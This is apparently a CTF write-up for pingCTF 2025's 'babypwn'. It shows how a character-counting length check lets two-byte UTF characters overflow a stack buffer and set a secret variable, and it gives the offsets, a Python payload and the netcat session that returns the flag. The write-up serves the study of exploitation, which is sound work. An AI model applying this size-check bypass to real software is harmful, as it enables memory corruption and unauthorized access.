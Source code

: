 ```yaml
---
title: "babypwn"
data: 2025-03-22
layout: writeup
platform: pingCTF 2025
categories: [Pwn]
tags: [Buffer Overflow]
difficulty: Medium
---
```


# babypwn

## Challenge Description

We're given the cpp source code to binary and a server to connect to.
The binary takes in input from a user and prints it back to the user.
There is a secret variable that we need to modify to get the flag.

```cpp
const char secret[5]="1234";
...
if (secret[0]=='p' and secret[1]=='i' and secret[2]=='n' and secret[3]=='g' )
{
    cout << "fake flag"<<endl;
}
```

## Checking stack offsets

I opened the binary in binary ninja and checked the stack offsets of the variables.
The secret variable is at offset `-0x1d`.
and the name_buf is at offset `-0x68`.

`0x68 - 0x1d = 0x4b (75 in decimal)`

## Vulnerability

The buffer size is 64 bytes, but the fgets reads 256 bytes.
There is however a safety net in place.

```cpp
size_t user_inp_size = ww898::utf::size(inp_buf);
if (user_inp_size > name_buf_size)
{
    cout << "buffer overflow detected"<<endl;
    return 0;
}
while (inp_buf[i] != '\n')
{
    name_buf[i] = inp_buf[i];
    i++;
}
```

The vulnerability lies in how the size of the input is calculated.
The size of the input is calculated using `ww898::utf::size(inp_buf)`.
This function calculates the size using the number of characters in the input and not the number of bytes.
This allows us to enter special UTF characters that are 2 bytes in size rather than 1 byte.

## Solution

```python
payload = 37*'È' + '0' + 'ping'
print(payload)
```

```
$ nc ip port
Enter your name:
ÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈ0ping
Hello: ÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈ0ping
ping{b3g1nn3r_fr13nd1y_bu773r_0v3rfl0w}
```

